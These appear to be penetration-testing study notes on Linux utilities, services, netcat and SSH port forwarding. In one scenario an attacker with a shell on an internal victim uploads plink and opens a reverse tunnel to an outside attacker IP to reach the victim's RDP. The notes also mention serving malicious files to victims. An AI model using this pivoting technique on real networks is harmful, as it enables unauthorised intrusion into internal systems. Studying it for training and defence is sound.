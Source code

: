 linux utilities to **find or locate** files

1. Locate command: 

Updatedb -- to update the db of the OS

Ex: locate sbd.exe

1. Which command :

Ex: which sbd : prg can be found under /usr/bin/

1. find command:

Ex: find / -name sbd\*

all files lower case sbd and file format.

find  -name sbd\* -exec file{} \;

**Services**:

passwd : change the old and weak pass to new strong password

1. SSH Services : Secure shell

EX : netstat -antp \| grep sshd

Service ssh stop

1. HTTP Server:

TCP based  and download the malicious file to victim

Ex: services apache2 start

echo "kali linux rocks" &gt; /var/www/index.html

1. services management : wrapper around /etc/init.d

4.Service persistent

update -rc.d ssh enable

update-rc.d apache2 enable

RC conf also can be used

**bash scripting**

1. cat index.html l grep "href="
2. cat index.html \| grep "href=" \| cut -d

**Essential**

netcat : network utility able to read and write to TCP and UDP ports

it can be used as TCP client or server

nc -nv 192.168.20.25 25

open

banner

HELP

SMTP list all commands

nc -nv 192.168.30.35 110

bob

password: bob

**Port Forwarding**

rinetd.conf

scenario1:

Encrypted tunnel within the ssh tunnel:

**SSH Local Port forwarding \(-L\):**

localport --&gt; remoteport \(Over ssh tunnel\)

**SSH Remote Port forwarding :**

Scenario2 \(tunnel a remote port to a local server\):

Initiated Client Attack \(on org\) and got shell of a internal machine \(Non routable\) -- &gt; uploaded a SSH windows client \(plink\) on vi

on victim machine we have RDP enabled \(\)

now to access internal RDP port by creating reverse SSL connection to attacker machine from the victim machine

Now tunnel the local rdp traffic to the remote port using plink

```
plink -l root -pw ubersecretpassword 208.88.127.99 -R 3390:127.0.0.1:3389
```

ssh connection is made and 3390 is in listen mode

netstat -antp \| grep LISTEN

Now in attacker machine try to tunnel the local traffic to rdp

```
rdesktop 127.0.0.1:3390
```

**SSH Dynamic Port Forwarding:**

---

Port Forwarding is a way to forward or “tunnel” TCP traffic through SSH from one machine to another. Using just one line of code, you can create an outgoing tunnel, forward your IP requests over that tunnel, and receive the response. In this way you can **pull **the data from a remote server to a **local**server \(local port forwarding\), and your local machine acts as a proxy server for the remote one. Or you can create an incoming tunnel to a remote server which receives IP requests, forwards them over that tunnel to the local server where it is processed and sent back again. Thus it is possible to **push**data from a local server to/through a**remote**server \(remote port forwarding\).

Local Port Forwarding \(Outgoing Tunnel\):

* Principle: Local host forwards/displays content of remote host.
  **Local host acts as proxy**
  . Tunneling opens a listening socket on localhost and transfers content to remote server
* Command:
  `ssh -L local_port:remote_host:remote_port login@servername`
* Tunnel: local host -\(SSH tunnel\)→ remote host -\(SSH tunnel\)→ local host
* Example: check remote host behind load-balancer or firewall on localhost

Remote Port Forwarding \(Incoming Tunnel\):

* Principle: remote host forwards content of localhost.
  **Remote host acts as proxy**
  . Tunneling opens a listening socket on the remote server host and transfers the content to the local host
* Command:
  `ssh -R remote_port:local_host:local_port login@servername`
* Tunnel: remote host -\(SSH tunnel\)→ local host -\(SSH tunnel\)→ remote host
* Example: make localhost visible in the internet or giving access to a service on your home machine to people at work



